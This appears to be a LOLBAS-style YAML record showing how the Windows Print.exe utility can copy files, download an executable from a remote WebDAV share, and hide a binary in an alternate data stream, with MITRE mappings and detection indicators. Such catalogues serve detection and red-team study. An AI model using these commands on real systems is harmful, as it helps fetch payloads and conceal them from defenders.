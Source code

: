 ```yaml
---
name: Print.exe
description: Used by Windows to send files to the printer
functions:
  copy:
    - description: Copy FileToCopy.exe to the target C:\ADS\CopyOfFile.exe
      code: print /D:C:\ADS\CopyOfFile.exe C:\ADS\FileToCopy.exe
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Copy files
    - description: Copy File.exe from a network share to the target c:\OutFolder\outfile.exe.
      code: print /D:C:\OutFolder\outfile.exe \\WebDavServer\Folder\File.exe
      mitreid: T1105
      mitrelink: https://attack.mitre.org/wiki/Technique/T1105
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Copy/Download file from remote server
  ads:
    - description: Copy file.exe into the Alternate Data Stream (ADS) of file.txt.
      code: print /D:C:\ADS\File.txt:file.exe C:\ADS\File.exe
      mitreid: T1096
      mitrelink: https://attack.mitre.org/wiki/Technique/T1096
      operatingsystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
      privileges: User
      usecase: Hide binary file in alternate data stream to potentially bypass defensive counter measures
resources:
    - resource: https://twitter.com/Oddvarmoe/status/985518877076541440
    - resource: https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410
fullpath:
    - path: C:\Windows\System32\print.exe
    - path: C:\Windows\SysWOW64\print.exe
detection:
  - IOC: Print.exe getting files from internet
  - IOC: Print.exe creating executable files on disk
acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```


